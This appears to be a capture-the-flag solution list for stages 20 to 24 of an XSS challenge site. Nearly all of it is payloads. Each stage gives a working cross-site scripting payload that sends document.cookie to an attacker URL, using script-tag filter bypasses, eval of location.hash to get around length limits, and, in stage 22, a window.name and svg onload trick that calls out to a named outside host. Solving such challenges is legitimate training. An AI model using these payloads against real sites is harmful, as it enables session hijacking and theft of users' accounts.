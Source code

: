# Stage20 
- Link : [http://303f34eb0a974a432254a4cb2d6e07fa6f8b0b7f.knock.xss.moe/?q=XSS](http://303f34eb0a974a432254a4cb2d6e07fa6f8b0b7f.knock.xss.moe/?q=XSS)
- Payload : `<scripscriptt>location='{yourURL}/?se='.concat(document.cookie)</scripscriptt>`
- Note : bypass script

---
# Stage21 
- Link : [http://49ab9ff165cd76ffe06af0b72f450c82f35db396.knock.xss.moe/?q=xss](http://49ab9ff165cd76ffe06af0b72f450c82f35db396.knock.xss.moe/?q=xss)
- Payload : `<scripT>javascript:location='{yourURL}/?se='.concat(document.cookie)</scripT>`
- Note : `Content-Security-Policy: script-src 'self' 'unsafe-inline'`

---
# Stage22
- Link : [http://bcd699e871d46c191f3c43a7197c18440b308507.knock.xss.moe/](http://bcd699e871d46c191f3c43a7197c18440b308507.knock.xss.moe/)
- Payload : `<script>eval(location.hash.slice(1))</script>#location='{yourURL}/?se='+document.cookie`
- Note : Limit 65 character in script tag 🍌 
- Different way: Using shorten link your host, In your host:

```javascript
    <script>
        window.name = "location.href='http://evilwing.me:5000/?'+document.cookie";
        location.href = "http://bcd699e871d46c191f3c43a7197c18440b308507.knock.xss.moe/?q=%3Csvg/onload=eval(name)%3E";
    </script>
```
---
# Stage23 
- Link : [http://51b123fbd6a21b3cf43f49e0a1014221e191c7db.knock.xss.moe/?q=XSS](http://51b123fbd6a21b3cf43f49e0a1014221e191c7db.knock.xss.moe/?q=XSS)
- Payload : `<script>eval(location.hash.slice(1))</script>#location='{yourURL}/?se='+document.cookie`
- Note : Limit 55 character 🍌 

---
# Stage24 
- Link : [http://1498f071159fd60222c0e7e82b7b6ff046e9e52e.knock.xss.moe/](http://1498f071159fd60222c0e7e82b7b6ff046e9e52e.knock.xss.moe/)
- Payload : `<script>eval(location.hash.slice(1))</script>#location='{yourURL}/?se='+document.cookie`
- Note : Limit 45 character  🍌 

---